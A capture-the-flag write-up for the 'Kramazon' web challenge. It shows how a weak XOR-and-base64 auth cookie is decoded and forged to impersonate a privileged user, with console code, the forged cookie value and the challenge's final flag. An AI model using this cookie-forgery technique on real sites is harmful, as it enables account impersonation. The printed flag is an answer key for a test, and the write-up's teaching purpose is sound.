

# day 5 Kramazon

category : web exploit

## **Description**

Intelligence analysts from the North Pole Logistics Directorate (NPLD) have uncovered a covert online storefront operated by the KRAMPUS Syndicate. Its name? **Kramazon.**

Looks familiar. Works familiar. Absolutely not legitimate.

Kramazon is a distribution front used by the Syndicate to intercept gifts, reroute sleigh cargo, and quietly undermine Santa’s global delivery network.

NPLD Cyber Response believes Kramazon’s checkout system contains a subtle implementation flaw: customers with ordinary elf-level accounts have somehow been able to receive Santa-priority shipping status, which should only be assigned through Santa’s authenticated sleigh-routing systems.

If KRAMPUS operators are abusing this flaw, they could divert or prioritize packages in ways that delay, disrupt, or even sabotage the entire Christmas Eve operation.

Investigate Kramazon’s ordering workflow. If you can exploit this flaw to obtain Santa Priority Delivery for your order, Kramazon will reveal its restricted Priority Route Manifest, which contains the flag.

Good luck, Operative.

[**https://kramazon.csd.lol/**](https://kramazon.csd.lol/)

---

***You are only allowed to test in the scope `https://kramazon.csd.lol/*`.** Blind brute-force request sending (e.g. using tools like DirBuster) can trigger Cloudflare rate limits. Do not attempt to bypass Cloudflare limits. Therefore, if you wish to brute-force, please limit your wordlists or attack scope.*

clue :

- The challenge description states that regular users were able to somehow identify as the privileged Santa user. Use your browser DevTools and carefully review all requests and responses in the "Network" tab to see if anything is relevant. Additionally, reading over the **`script.js`** file that is being run will also be helpful. Remember, an HTTP response includes more than just the body.
- There is a [**`Set-Cookie`**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie) header being sent when you request the homepage. Perhaps the server is [**not verifying**](https://www.geeksforgeeks.org/ethical-hacking/insecure-direct-object-reference-idor-vulnerability/) this part of the authentication flow properly. Using any clues that you can find in **`script.js`** (do any parts of the code look off?), can you reverse engineer the cookie and send one that can exploit the challenge?

```jsx
#sript.js
document.addEventListener("DOMContentLoaded", function () {
  // Hero Slider Logic
  const slides = document.querySelectorAll(".slide");
  const prevBtn = document.getElementById("prevBtn");
  const nextBtn = document.getElementById("nextBtn");
  let currentSlide = 0;
  let slideInterval;

  function showSlide(index) {
    slides.forEach((slide, i) => {
      slide.classList.remove("active");
      if (i === index) {
        slide.classList.add("active");
      }
    });
  }

  function nextSlide() {
    currentSlide = (currentSlide + 1) % slides.length;
    showSlide(currentSlide);
  }

  function prevSlide() {
    currentSlide = (currentSlide - 1 + slides.length) % slides.length;
    showSlide(currentSlide);
  }

  function startSlideShow() {
    slideInterval = setInterval(nextSlide, 5000); // Change slide every 5 seconds
  }

  function stopSlideShow() {
    clearInterval(slideInterval);
  }

  nextBtn.addEventListener("click", () => {
    nextSlide();
    stopSlideShow();
    startSlideShow();
  });

  prevBtn.addEventListener("click", () => {
    prevSlide();
    stopSlideShow();
    startSlideShow();
  });

  showSlide(currentSlide);
  startSlideShow();

  // Back to Top button
  const backToTopBtn = document.getElementById("backToTopBtn");
  backToTopBtn.addEventListener("click", () => {
    window.scrollTo({
      top: 0,
      behavior: "smooth",
    });
  });
});

// :)
(async () => {
  const response = await fetch("https://ipapi.co/json/");
  const data = await response.json();

  const locationElement = document.getElementById("location");

  locationElement.textContent = `${data.city}, ${data.postal}`;
})();

document.getElementById("order").addEventListener("click", async () => {
  try {
    console.log("Creating order...");

    const createRes = await fetch("/create-order", {
      method: "POST",
      headers: { "Content-Type": "application/json" },
    });
    const order = await createRes.json();

    console.log("[*] Waiting for status callback...");
    setTimeout(async () => {
      const callbackRes = await fetch(order.callback_url);
      const status = await callbackRes.json();

      function santaMagic(n) {
        return n ^ 0x37; // TODO: remove in production
      }

      if (status.internal.user === 1) {
        alert("Welcome, Santa! Allowing priority finalize...");
      }

      setTimeout(async () => {
        const finalizeRes = await fetch("/finalize", {
          method: "POST",
          headers: { "Content-Type": "application/json" },
          body: JSON.stringify({
            user: status.internal.user,
            order: order.order_id,
          }),
        });

        const finalize = await finalizeRes.json();
        console.log("Finalize response:", finalize);

        alert("Order completed. Thank you for your support to Krampus Syndicate!");
      }, 1000);
    }, 3000);
  } catch (err) {
    console.error("Error in workflow:", err);
  }
});
```

on browser host


use cookie Bg%3D%3D

response after click order now after change cookie on  kali vm browser


Kramazon is a fake storefront belonging to the KRAMPUS Syndicate that impersonates Amazon. Our task as Operative NPLD Cyber Response is to investigate a bug in its ordering system.

The challenge description explains that:

> A regular user can somehow get Santa Priority Delivery, even though it should only be granted through a special Santa authentication system.
> 

In other words, **there is a privilege escalation vulnerability** through manipulation of the order flow, most likely in the **cookie authentication**.

We are only allowed to test within the domain scope:

`https://kramazon.csd.lol/*`

No major brute-force attacks that violate Cloudflare's rate limits.

# Exploit Goal

Make the backend system believe that **we are Santa**, so the order will be finalized as **Santa Priority Delivery**, and we will receive a **Priority Route Manifest** containing the flag.

# Recon & Information Gathering

## 1. Inspect Response Headers

When accessing the `https://kramazon.csd.lol` homepage, using **DevTools → Network**, the main request (`GET /`) found the following header:

```
Cookie: auth=BA4FBg%3D%3D

```

Encode URL → decoded value:

`BA4FBg==`

This is likely a **user token**, and looks like **base64**.

---

## 2. Review Client-Side Logic (script.js)

In DevTools → Sources, the main script was found: `script.js`.

The most suspicious one:

```jsx
function santaMagic(n) {
return n ^ 0x37; // TODO: remove in production
}

if (status.internal.user === 1) {
alert("Welcome, Santa! Allowing priority finalize...");
}

```

This provides **2 important clues**:

### Clue 1: Privilege check

Santa is identified as:

```
status.internal.user === 1

```

This means:

- Santa = user ID `1`
- We just need to make `internal.user === 1`

### Clue 2: Obfuscation

`santaMagic(n)` performs XOR:

```
user = cookie_value ^ 0x37

```

XOR is reversible:

```
cookie = user ^ 0x37

```

So the backend doesn't use signatures, HMAC, or signed JWTs, just **XOR and base64**.

---

# Decode Current Cookie

In Console:

```jsx
atob("BA4FBg==")

```

The result is raw bytes, we XOR them:

```jsx
const raw = atob("BA4FBg==");
let decoded = "";
for (let i = 0; i < raw.length; i++) {
decoded += String.fromCharCode(raw.charCodeAt(i) ^ 0x37);
}
decoded;

```

Output:

```
"3921"

```

Meaning:

- **Current User ID = 3921**
- We are regular users, not Santa.

# Forge Santa Cookies

Target:

```
internal.user = 1

```

Then cookies:

```
cookie_value = 1^0x37

```

Count:

```jsx
1^0x37

```

Output:

```
54 (decimal)

```

Convert to encoded token as **base64(XOR bytes)**:

```jsx
const santaId = "1";
let xored = "";
for (let i = 0; i < santaId.length; i++) {
xored += String.fromCharCode(santaId.charCodeAt(i) ^ 0x37);
}
btoa(xored);

```

Output:

```
"Bg=="

```

URL encode:

```jsx
encodeURIComponent("Bg==")

```

Output:

```
"Bg%3D%3D"

```

So **legitimate Santa cookies** are:

```
auth=Bg%3D%3D

```

---

# Set Cookie & Execute Attack

On Console:

```jsx
document.cookie = "auth=" + encodeURIComponent("Bg==") + "; path=/;";

```

- Reload page
- Click "Order Now"
- Network flow:
- `POST /create-order`
- URL callbacks
- `POST /finalize`

A popup appears:

> Welcome, Santa! Allowing priority finalize...
> 

This means the backend believes we are **Santa**.

---

# Extract the Flag

In `/finalize`, Response JSON:

```json
{
"success": true,
"privileged": true,
"message": "Order finalized with Santa-level priority!",
"internal_route": "/priority/manifest/route-2025-SANTA.txt",
"flag_hint": "flag{npld_async_cookie_"
}

```

Accessing file:

```
<https://kramazon.csd.lol/priority/manifest/route-2025-SANTA.txt>

```

Inside is the **full flag**:

---




csd{npld_async_callback_idor_mastery}